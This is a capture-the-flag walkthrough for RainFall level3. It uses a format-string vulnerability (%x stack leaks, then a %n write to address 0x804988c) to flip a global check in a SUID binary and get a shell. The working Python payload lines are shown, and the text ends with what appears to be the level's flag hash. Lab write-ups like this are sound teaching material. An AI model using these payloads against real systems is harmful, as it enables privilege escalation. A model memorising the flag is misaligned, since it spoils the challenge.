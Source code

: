 In this file we can see that our bash execution is only behind a single condition check

There may be other ways to do it, but we can simply use gdb to go untill the condition and set the register manually

Uh nervermind, it seems that we loose suid thanks to GDB

Turns out the comparaison is carried on a global variable, that can be found at address 0x804988c

https://cs.boisestate.edu/~jhyeh/cs546/Format-String-Lecture.pdf

Ok but what now ?

What if there is more % than there is arguments ?

```
level3@RainFall:~$ ./level3
%x %x %x %x %x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078
```
Ok so we do get some values
```
level3@RainFall:~$ ./level3
AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x
AAAA 200 AAAA b7fd1ac0 AAAA b7ff37d0 AAAA 41414141 AAAA 20782520 AAAA �41414141
```

We can see that we find the 41 value wich is our A, interesting

```
level3@RainFall:~$ ./level3
AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x
AAAA 200 AAAA b7fd1ac0 AAAA b7ff37d0 AAAA 41414141 AAAA 20782520 AAAA �41414141
```


``` 
level3@RainFall:~$ ./level3
AAAA %x %x %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
``` 

Ok so it seems that the fourth arguments that printf takes is the string itself, we may be able to do something about it 

Lets try printing our value

\x8c\x98\x04\x08 %x %x %x %s

yeah we get a segault because there is probably no null termination

Turns out we can write to a pointer using the %n modifier, %n writes to a pointed value the number of chars it has printed so far


level3@RainFall:~$ python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%c%c%c%n")' > /tmp/exploit2

Does not work because the chars are not printable is my guess

level3@RainFall:~$ python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/exploit2

Does work however cuz we select the fourth argument directly

We can also use below and make use of the padding for the ammount of chars we want

level3@RainFall:~$ python -c 'print ("\x8c\x98\x04\x08" + "%60d%4$n")' > /tmp/exploit2

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa